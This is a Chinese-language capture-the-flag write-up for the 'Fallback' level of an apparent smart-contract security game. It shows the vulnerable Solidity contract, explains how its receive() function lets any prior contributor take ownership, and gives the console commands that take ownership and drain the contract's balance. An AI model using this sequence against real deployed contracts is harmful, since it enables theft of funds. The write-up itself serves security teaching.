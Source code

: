 ### 第二关 Fallback
### 难度1/5
## 这一关的通关条件有两个，1：成为合约的owner。2、把合约的balance掏空。
## 代码如下：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```
1. 观察合约，成为owner有两种方法。先看第一种方法：
可以看出合约在constructor()中写入了contributions[msg.sender] = 1000 * (1 ether);，就是说需要转入大于owner持有的balance数量才可以成为新的owner，而且contribute()函数规定require(msg.value < 0.001 ether);，所以常规方法不行。
```solidity
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
```
2. 第二种方法：观察可以看出还有个receive()函数可以更改owner，这个函数很特殊，没有function标识。
```solidity
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```
在Solidity中，fallback函数和receive函数是特殊函数，都是用于处理合约接收到的以太币或未匹配的函数调用。关键区别如下所示，关卡合约里的receive()函数还有两个条件，需要(msg.value > 0 && contributions[msg.sender] > 0)。
| 特性      | receive                | fallback                     |
|-----------|-------------------------|------------------------------|
| 特性      | receive                 | fallback                     |
| 触发条件  | 纯 ETH 转账 (无数据)    | 未匹配函数调用或带数据转账   |
| payable   | 必须                    | 可选                          |
| 参数      | 无                      | 可访问 `msg.data`            |
| 优先级    | 高 (纯转账优先)         | 低 (仅当 `receive` 不适用)   |

## 解题步骤：
1. 首先调用contribute()函数将玩家钱包地址的balance增加。
```javascript
await contract.contribute({value: toWei("0.00001")})
```
2. 直接向合约转账，触发receive()函数。
```javascript
await contract.sendTransaction({value: toWei("0.00001")})
```
3. 调用withdraw()函数把合约的balance掏空。
```javascript
await contract.withdraw()
```
4. 提交通过关卡。
